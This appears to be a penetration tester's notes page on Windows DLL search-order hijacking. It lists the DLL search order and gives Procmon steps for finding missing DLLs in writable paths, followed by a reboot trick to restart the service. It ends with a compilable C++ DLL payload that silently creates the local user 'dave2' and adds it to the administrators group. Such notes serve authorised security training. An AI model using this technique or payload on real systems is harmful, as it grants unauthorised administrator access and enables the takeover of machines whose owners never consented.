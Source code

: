 
Search order in the safe DLL search mode, activated by default:
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.

#### Technique:
1. Copy the binary to a local machine
2. Run Procmon64 (requires admin, therefore the copy)
3. Set a filter to `Process Name is example.exe`
4. Run binary
5. Look for `CreateFile` calls in the `Operation` column
6. If the `Details` column says `Name not found`, look whether one of those directories is writeable for us on the actual target. In that case, we can just create a DLL in this path. Otherwise, we could look whether we have write permissions on some of the successfully called DLLs.
7. Restart the service. If we don't have the permission but we can restart the host (`whoami /priv`) and the service has the `StartMode` set to `Auto` (see [[2_loot_Windows_Template]]), we could restart the whole machine (`reboot /r /t 0`).

#### Example payload
Compile with the `--shared` flag, as shown in [[8_windowsCrosscompile]].
```c++
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add");
  	    i = system ("net localgroup administrators dave2 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```